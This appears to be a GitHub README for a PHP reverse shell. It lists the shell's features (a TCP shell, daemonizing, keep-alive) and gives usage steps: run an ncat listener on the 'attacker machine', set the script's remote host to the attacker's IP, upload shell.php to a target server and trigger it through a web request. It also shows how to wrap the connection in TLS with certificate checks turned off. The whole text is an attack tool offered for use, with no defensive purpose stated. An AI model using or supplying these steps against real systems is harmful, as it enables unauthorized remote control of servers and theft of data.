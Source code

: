 simple PHP Reverse Shell — NZRXHX

# Features

- Fully functional reverse shell over TCP
- Compatible with Linux and Windows (auto-detects shell)
- Minimal dependencies — pure PHP
- Forks to background (daemonizes) when possible
- Stable stream handling (fixed `feof()` false positives)
- Keep-alive mechanism to maintain long-lived connections

---

## Usage

# 1. Start Listener

On your **attacker machine**, start a listener:
```bash
ncat -lvnp 443
```
You may replace 443 with another port.

# 2. Edit Script

Modify the following values in the PHP script:
```php
$remote_host = 'YOUR_IP';
$remote_port = 443;
$allowed_hosts = ['YOUR_IP'];
```

# 3. Upload and Execute

Upload the PHP script to the target system and trigger it via a web request:

http://target.com/shell.php

Optional: TLS (SSL) Support

# If using a TLS listener:

```bash
ncat --ssl -lvnp 443
```
Then change this line in the script:
```php
$socket = stream_socket_client("tcp://...");
```
to:
```php
$context = stream_context_create([
  'ssl' => ['verify_peer' => false, 'verify_peer_name' => false]
]);
$socket = stream_socket_client("ssl://$remote_host:$remote_port", $errno, $errstr, $timeout, STREAM_CLIENT_CONNECT, $context);
```

